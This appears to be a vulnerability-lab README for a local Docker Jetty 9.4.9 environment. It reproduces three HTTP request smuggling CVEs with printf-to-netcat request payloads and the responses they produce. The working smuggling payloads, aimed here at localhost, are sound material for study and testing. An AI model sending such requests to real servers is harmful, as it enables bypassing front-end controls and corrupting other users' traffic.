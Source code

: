 #	Jetty - Http Smuggling

## Referer
https://regilero.github.io/english/security/2019/04/24/security_jetty_http_smuggling/

##	Composition

jetty 9.4.9



##	使用

Only for POC.

###	build

```bash
docker-compose up -d
```

The jetty server will on the port 9014.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
```

1 HTTP code 200 means all right! 

Enjoy!



###	reproduce[容器内没有nc，退出容器]

####	CVE-2017-7656 HTTP/0.9

```bash
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 9014
```

You will get an http/0.9 response. No headers is right. HTTP/0.9 responses don't have headers.

```html
<html>
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
<td>
<img src="images/tomcat.gif">
</td>
<td>
<h1>Sample "Hello, World" Application</h1>
<p>This is the home page for a sample application used to illustrate the
source directory organization of a web application utilizing the principles
outlined in the Application Developer's Guide.
</td>
</tr>
</table>

<p>To prove that they work, you can execute either of the following links:
<ul>
<li>To a <a href="hello.jsp">JSP page</a>.
<li>To a <a href="hello">servlet</a>.
</ul>

</body>
</html>
```



####	CVE-2017-7657 Chunk size attribute truncation

```bash
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes. 

Try this:

```bash
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes, too.

Jetty will cut the long size to short size. For example, the first time we tried, size is 100000000. It will be treated as 0. The second time we tried, size is 1ff00000008. It will be treated as 8.

So both of these, we will get two responses.



####	CVE-2017-7658 Double Content-Length

```bash
printf 'GET /?test=4966 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 45\r\n'\
'Content-Length: 0\r\n'\
'\r\n'\
'GET /?test=4967 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get

```
HTTP/1.1 400 Duplicate Content-Length
Content-Type: text/html;charset=iso-8859-1
Content-Length: 67
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: Duplicate Content-Length</pre>
```

But when we try this:

```bash
printf 'GET /?test=4968 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4969 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get a 200 code. So let's smuggle.

```bash
printf 'GET /?test=4970 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4971 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'GET /?test=4972 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get two 200 codes.



#	Reference

https://regilero.github.io/english/security/2019/04/24/security_jetty_http_smuggling/#toc3

https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/
